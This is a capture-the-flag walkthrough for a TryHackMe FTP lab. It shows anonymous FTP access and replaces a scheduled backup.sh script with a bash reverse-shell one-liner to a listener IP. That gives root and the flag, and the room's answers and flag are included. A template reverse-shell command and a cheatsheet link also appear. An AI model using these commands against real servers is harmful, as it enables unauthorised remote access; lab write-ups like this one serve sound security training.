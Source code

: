 ```yaml
---
description: Networking - FTP
---
```


# Anyone can be Santa!

## Video

{% embed url="https://www.youtube.com/watch?v=i-jqFYTPEV4" %}

## Resources

The standard for these two connections are the two ports:

* Port 20 \(Data\)
* Port 21 \(Commands\)

[pentesters cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

`bash -i >& /dev/tcp/Your_TryHackMe_IP/4444 0>&1`

## Challenge

Name the directory on the FTP server that has data accessible by the "anonymous" user

```text
ftp 10.10.130.142
anonymous
ls
```

![](../.gitbook/assets/image%20%2863%29.png)

{% hint style="success" %}
public
{% endhint %}

What script gets executed within this directory?

```text
ftp 10.10.130.142
anonymous
ls
cd public
ls
```

![](../.gitbook/assets/image%20%2858%29.png)

{% hint style="success" %}
backup.sh
{% endhint %}

What movie did Santa have on his Christmas shopping list?

```text
ftp 10.10.130.142
anonymous
cd public
get shoppinglist.txt
quit
cat shoppinglist.txt
```

![](../.gitbook/assets/image%20%288%29.png)

{% hint style="success" %}
The Polar Express
{% endhint %}

Re-upload this script to contain malicious data \(just like we did in section **9.6**. Output the contents of /root/flag.txt!

Note that the script that we have uploaded may take a minute to return a connection. If it doesn't after a couple of minutes, double-check that you have set up a Netcat listener on the device that you are working from, and have provided the TryHackMe IP of the device that you are connecting from.

```text
ftp 10.10.130.142
anonymous
cd public
get backup.sh
```

![](../.gitbook/assets/image%20%2854%29.png)

```text
vi backup.sh

bash -i >& /dev/tcp/10.14.4.204/4444 0>&1
```

![](../.gitbook/assets/image%20%2816%29.png)

```text
put backup.sh
```

![](../.gitbook/assets/image%20%285%29.png)

```text
nc -lnp 4444
cd /root
cat flag.txt
```

![](../.gitbook/assets/image%20%286%29.png)

{% hint style="success" %}
THM{even\_you\_can\_be\_santa}
{% endhint %}


